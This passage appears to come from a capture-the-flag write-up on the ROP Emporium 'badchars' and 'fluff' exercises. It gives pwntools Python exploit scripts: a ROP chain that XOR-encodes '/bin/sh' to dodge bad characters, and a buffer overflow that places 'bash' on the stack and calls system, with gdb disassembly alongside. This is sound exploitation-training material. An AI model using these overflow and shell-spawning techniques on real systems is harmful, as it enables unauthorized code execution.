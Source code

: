 ```python
for i in "/bin/sh\x00":
    c = ord(i) ^ xornum[num]
    while c in badchars:
        xornum[num] += 1
        c = ord(i) ^ xornum[num] 
    sh += chr(c)
    num += 1

for i in range(0,8):
    decrypt += p64(0x0000000000400b40)
    decrypt += p64(xornum[i])
    decrypt += p64(dataAdd)
    decrypt += p64(0x0000000000400b30)
    dataAdd += 1

shellcode = ''
shellcode += preRegister + sh + dataSeg 
shellcode += writeData
shellcode += decrypt
shellcode += writeRdi + dataSeg
shellcode += execute
print offset*'A' + shellcode
bin = process('badchars')
bin.sendline(offset*'A' + shellcode)
bin.interactive()
```

## fluff

Now, we don't have usefulf gadget function. So we need to figure other ways. 

Notify one line in pwnme, we can control *rdi*:
```
...
   0x00000000004007f3 <+62>:	lea    rax,[rbp-0x20]
   0x00000000004007f7 <+66>:	mov    esi,0x200
   0x00000000004007fc <+71>:	mov    rdi,rax
   0x00000000004007ff <+74>:	call   0x400620 <fgets@plt>
   0x0000000000400804 <+79>:	nop
   0x0000000000400805 <+80>:	leave  
   0x0000000000400806 <+81>:	ret    
```

After testing in gdb, I found that the offset of *[rbp-0x20]* is the place after first char. So, we need to put a garbage character first. Then, write "bash\x00\x00\x00\x00". At last, we filled the remaning 31 character length plus return address of `call system`:
```python
from pwn import *

execute = p64(0x0000000000400810)
sh = "A" + "bash\x00\x00\x00\x00"
offset = 40
shellcode = execute
print offset*'A' + shellcode
bin = process('fluff')
bin.sendline(sh + (offset - len(sh))*'A' + shellcode)
bin.interactive()
```

